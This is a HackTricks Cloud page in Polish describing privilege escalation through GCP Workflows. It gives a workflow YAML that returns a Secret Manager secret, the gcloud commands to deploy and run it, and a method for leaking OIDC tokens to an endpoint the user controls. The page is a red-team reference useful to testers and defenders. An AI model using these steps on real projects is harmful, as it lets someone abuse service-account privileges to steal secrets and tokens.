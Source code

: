 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Podstawowe informacje:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Z tego co wiem, nie jest możliwe uzyskanie powłoki z dostępem do punktu końcowego metadanych zawierającego dane uwierzytelniające SA przypisanego do Workflow. Jednak możliwe jest nadużycie uprawnień SA, dodając działania do wykonania wewnątrz Workflow.

Możliwe jest znalezienie dokumentacji konektorów. Na przykład, oto [**strona konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** W pasku bocznym można znaleźć kilka innych konektorów.

A tutaj można znaleźć przykład konektora, który drukuje sekret:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualizacja z CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Jeśli otrzymasz błąd taki jak `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, po prostu **poczekaj minutę i spróbuj ponownie**.

Jeśli nie masz dostępu do sieci, możliwe jest wywołanie i zobaczenie wykonania Workflow za pomocą:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Możesz również sprawdzić wyniki wcześniejszych wykonania, aby poszukać wrażliwych informacji
{% endhint %}

Zauważ, że nawet jeśli otrzymasz błąd taki jak `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` ponieważ nie masz tej zgody, workflow został wygenerowany.

### Wyciekanie tokena OIDC (i OAuth?)

Zgodnie z [**dokumentacją**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) możliwe jest użycie kroków workflow, które wyślą żądanie HTTP z tokenem OAuth lub OIDC. Jednak, tak jak w przypadku [Cloud Scheduler](gcp-cloudscheduler-privesc.md), żądanie HTTP z tokenem Oauth musi być skierowane do hosta `.googleapis.com`.

{% hint style="danger" %}
Dlatego **możliwe jest wyciekanie tokena OIDC poprzez wskazanie punktu końcowego HTTP** kontrolowanego przez użytkownika, ale aby wyciec **token OAuth**, potrzebowałbyś **obejścia** tej ochrony. Jednak nadal możesz **kontaktować się z dowolnym API GCP, aby wykonywać działania w imieniu SA** używając zarówno konektorów, jak i żądań HTTP z tokenem OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Dzięki temu uprawnieniu zamiast `workflows.workflows.create` możliwe jest zaktualizowanie już istniejącego workflow i przeprowadzenie tych samych ataków.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
